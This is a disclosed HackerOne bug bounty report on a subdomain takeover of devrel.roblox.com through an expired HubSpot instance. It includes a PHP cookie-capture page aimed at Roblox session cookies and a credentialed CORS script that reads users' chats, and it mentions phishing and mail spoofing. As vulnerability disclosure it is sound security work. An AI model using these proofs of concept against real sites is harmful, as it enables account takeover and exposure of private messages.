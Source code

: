 # Subdomain Takeover to Authentication bypass 

## Report Details
- **Report ID**: 335330
- **URL**: https://hackerone.com/reports/335330
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-04-09T23:07:41.314Z
- **Disclosed**: 2020-04-23T20:50:11.710Z

## Reporter
- **Username**: geekboy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: roblox

## Vulnerability Information
## Vulnerability Type: 
-----------
Subdomain Takeover

## Description: 
-----------
Due to unclaimed or expired Hubspot instance an attacker is able to claim and serve content from `devrel.roblox.com` and perform different kind of attacks which i shared in impact section.

## Affected Area: 
-----------
http://devrel.roblox.com

## Steps to Reproduce:
-----------
+ Visit: https://devrel.roblox.com/subdomain-takeover

{F283580}

## Mitigation:
-----------
+ Remove the CNAME entry for the `devrel.roblox.com`

## Impact

Let's talk about about in details, as attacker could possible takeover other users account. 

1. As `.ROBLOSECURITY` cookies is scoped to `*.roblox.com` means same cookies shared with all other subdomain, i'm not much familiar with hubspot with hosting following code on will steal all the users cookie who visit this subdomain.

{F283554}

###steal_cookie.php

```php
<html>
<body>
<?php
echo "Cookies received: <br>";

foreach ($_COOKIE as $key=>$val)
  {
    echo "Set-Cookie: $key=$val; Domain=.roblox.com; path=/<br>\n";
  }
?>
</body>
</html>
``` 

2. Also `devrel.roblox.com` can be used to read all the chats between other users as 
 `devrel.roblox.com` is also white listed to make CORS request at  `chat.roblox.com` 

{F283553}

Which can be done like this: 

````html

<h2>CORS To Read Chat</h2>
<div id="demo">
<button type="button" onclick="cors()">Chat Reader @ Roblox</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = document.write(this.responseText);
    }
  };
  xhttp.open("GET", "https://chat.roblox.com/v2/get-messages?conversationId=469104576&pageSize=3", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 ````

Apart form all above issue, attacker can do following things as well.
+ Creating fake login page for credentials harvesting.
+ Sharing malicious files using roblox.
+ Creating mail account using GSuite to send and recived emails on behalf of `*@devrel.roblox.com`

## Attachments
- reading_chats.PNG
- shared_cookie.PNG
- takeover.PNG
